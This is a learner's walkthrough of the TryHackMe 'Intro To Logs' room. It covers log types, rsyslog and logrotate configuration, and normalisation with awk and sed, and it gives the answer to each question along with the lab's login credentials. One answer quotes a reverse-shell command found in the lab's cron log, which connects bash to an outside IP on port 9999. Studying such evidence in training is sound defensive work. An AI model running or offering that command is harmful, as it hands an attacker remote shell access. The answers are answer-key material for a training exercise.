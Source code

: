 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## SOC 2 Learning Pathway

### Introduction

Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are here

login: damianhall
password: Logs321!

#### Q1:  What is the name of your colleague who left a note on the Desktop?

##### cat Desktop/note.txt (or open in the GUI)

! Perry

#### Q2: What is  full path to the suggested log file for initial investigation?

##### look in cat output of the note!

! /var/log/gitlab/nginx/access.log

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

#### Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?

##### Task 2 was discussing an Nginx server which is a web server...

! Web Server Log

#### Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?

##### The materials clearly list what format the Nginx web server uses by default.

>! combined

### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

#### Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?

##### after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

>! stansimon

#### Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?

##### cat /etc/rsyslog.d/99-websrv-02-cron.conf

>! 10.10.10.101

#### Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?

#####  cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

>! /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

#### Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?

##### cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

>! 24

#### Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?

##### See the output for the last question.

>! hourly

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

#### Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?

##### OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

>! No date field

#### What is the process of standardising parsed data into a more easily readable and query-able format?

##### This is what we did to the log file with all those awk sed and sort and uniq commands...

>! normalisation

#### What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?

##### This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

>! enrichment

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.
